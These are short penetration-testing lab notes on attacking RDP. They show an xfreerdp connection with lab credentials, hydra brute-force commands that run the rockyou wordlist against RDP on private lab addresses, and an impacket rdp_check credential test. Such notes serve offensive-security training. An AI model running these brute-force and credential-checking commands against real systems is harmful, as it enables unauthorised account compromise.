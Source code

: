 
Use xfreerdp from Kali to Windows 11 non domain box
```
xfreerdp +clipboard /u:offsec /p:lab /w:1366 /h:768 /v:192.168.250.196 /drive:<SHARED>
```

Dont know username?
```
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.232.202
```

Do know username? 

```
hydra -L George -P /usr/share/wordlists/rockyou.txt rdp://192.168.232.202
```

### Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:
```
rdp_check <domain>/<name>:<password>@<IP>
```

